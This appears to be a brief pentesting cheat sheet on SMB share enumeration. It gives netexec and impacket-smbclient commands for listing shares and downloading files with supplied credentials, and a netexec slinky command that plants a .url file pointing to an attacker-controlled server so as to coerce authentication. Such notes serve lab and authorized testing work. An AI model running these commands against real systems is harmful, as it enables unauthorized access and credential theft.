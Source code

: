 # SMB shares Enumeration

## Commands:

    netexec smb IP -u USER -p PASSWORD --shares

    impacket-smbclient -k DOMAIN.LOCAL/USERNAME:PASSWORD@DC.DOMAIN.LOCAL (Authenticate with kerberos)

## IN IMPACKET-SMBCLIENT SHELL

    shares (Check shares)

    use SHARE_NAME (Go to a share you have access to)

    get FILE (Download interesting files)

# TO EXPLOIT IT, GO TO THE EXPLOIT SECTION AFTER THIS

## Exploitation synopsis:

    netexec smb IP -u USER -p PASSWORD -M slinky -o NAME=FILENAME SERVER=IP

    drop .url file

### Go to Coerce SMB 
